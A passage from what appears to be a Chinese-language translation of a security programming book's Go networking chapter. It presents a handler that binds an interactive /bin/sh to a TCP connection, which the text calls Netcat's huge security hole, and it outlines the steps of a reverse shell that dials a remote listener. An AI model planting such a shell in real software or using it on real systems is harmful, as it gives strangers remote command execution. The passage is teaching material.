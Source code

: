 使用 PipeReader 和 PipeWriter 来避免必须显示地排空 writer，并且同步连接 stdout 和 TCP链接。再次重写处理函数：

```go
func handle(conn net.Conn) {
    // Explicitly calling /bin/sh and using -i for interactive mode 
    // so that we can use it for stdin and stdout.
    // For Windows use exec.Command("cmd.exe").
    cmd := exec.Command("/bin/sh", "-i")
    // Set stdin to our connection
    rp, wp := io.Pipe()❶
    cmd.Stdin = conn
  ❷ cmd.Stdout = wp 
  ❸ go io.Copy(conn, rp)
    cmd.Run()
    conn.Close() }
```

调用 io.Pipe() 创建了同步连接的 reader 和 writer —— 任何写入到 writer（即 wp ） 的数据都会被 reader (rp) 读取。因此，将 writer 赋值给 cmd.Stdout ，然后使用 Copy(Writer, Reader) 将 PipeReader 连接到 TCP 的链接。使用 goroutine 防止代码阻塞。命令的任何标准输出都将发送到 writer ，然后通过管道将 reader 的输出传送到TCP的链接。如此以来就优雅了吧？

这样，就从 TCP 等待连接的的角度成功实现了 Netcat 的巨大的安全漏洞。可以使用类似的逻辑来实现从连接的客户端将本地执行文件的 stdout 和 stdin 重定向到远程监听器。详细的细节留给您确定，但可能包括以下内容：

- 通过 net.Dial(network, address string) 和远程监听器建立连接。
- 使用 exec.Command(name string, arg ...string) 实例化一个 Cmd。
- 将 net.Conn 对象直接赋值给 Stdin 和 Stdout 。
- 运行命令。

至此，监听器应该能收到连接。发送到客户端的任何数据应在客户端上作为 stdin 处理，而在侦听器上接收的任何数据应作为 stdout 处理。该示例的完整代码在 [_https://github.com/YYRise/bhg/tree/master/ch-2/netcat-exec_](https://github.com/YYRise/bhg/tree/master/ch-2/netcat-exec)

## 总结

现在，您已经能开发实际的应用，学会了与网络，I/O 和并发相关的Go 的用法，接下来继续创建可用的 HTTP 客户端。
